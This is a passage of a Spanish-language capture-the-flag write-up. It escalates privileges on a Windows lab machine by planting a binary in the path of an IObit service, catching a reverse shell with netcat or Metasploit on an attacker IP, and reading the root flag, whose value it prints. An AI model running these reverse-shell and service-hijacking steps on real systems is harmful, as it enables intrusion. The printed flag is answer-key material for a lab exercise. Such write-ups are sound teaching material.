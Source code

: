 Ahora tenamos 2 opciones, o levantamos un netcat en el puerto 4443 o usamos multi/handler en metasploit. Veamos ambos casos.

Netcat
```
nc -lvp 4443
```

Metasploit
```
use multi/handler
use windows/shell/reverse_tcp
set lhost 10.8.153.49
set lport 4443
```

En la maquina victima, copiamos el binario a la ruta vulnerable
```
PS > copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced.exe"
```

Paramos y arrancamos el servicio **(Detalle, para que esto funcione debe hacerse en el shell comun y no por powershell)**
```
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
```
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3220
        FLAGS              : 
```

Veremos que ya tenemos consola system en nuestros listeners
```
listening on [any] 4443 ...
10.10.92.216: inverse host lookup failed: Unknown host
connect to [10.8.153.49] from (UNKNOWN) [10.10.92.216] 49492
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
```
C:\Windows\system32>whoami
whoami
nt authority\system
```
```
type C:\Users\Administrator\Desktop\root.txt
```
What is the root flag?: **9af5f314f57607c00fd09803a587db80**